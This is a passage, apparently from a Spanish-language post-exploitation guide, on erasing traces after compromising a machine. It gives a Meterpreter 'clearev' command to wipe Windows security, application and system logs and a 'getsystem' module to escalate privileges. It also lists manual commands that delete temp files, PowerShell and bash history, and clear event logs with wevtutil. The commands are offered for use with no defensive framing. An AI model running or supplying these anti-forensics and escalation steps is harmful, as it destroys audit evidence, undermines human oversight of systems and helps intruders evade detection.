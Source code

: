 ```bash
meterpreter > clearev
```

🔒 Esto borra:

- Logs de seguridad
- Logs de aplicación
- Logs del sistema

📌 Solo funciona con privilegios elevados.

---

#### 4. Elevar privilegios si no puedes borrar logs

```bash
getuid
run post/windows/escalate/getsystem
```

Si ya eres SYSTEM, puedes correr `clearev`.

---

### 🧪 Otros métodos: Borrar rastros manualmente

#### 🪟 En Windows:

- Borrar archivos temporales:

```powershell
del /f /s /q %temp%\*
```

- Borrar historial de PowerShell:

```powershell
Remove-Item (Get-PSReadlineOption).HistorySavePath
```

- Borrar eventos manualmente (requiere permisos):

```powershell
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
```

---

#### 🐧 En Linux:

- Borrar historial de comandos:

```bash
history -c
rm ~/.bash_history
```
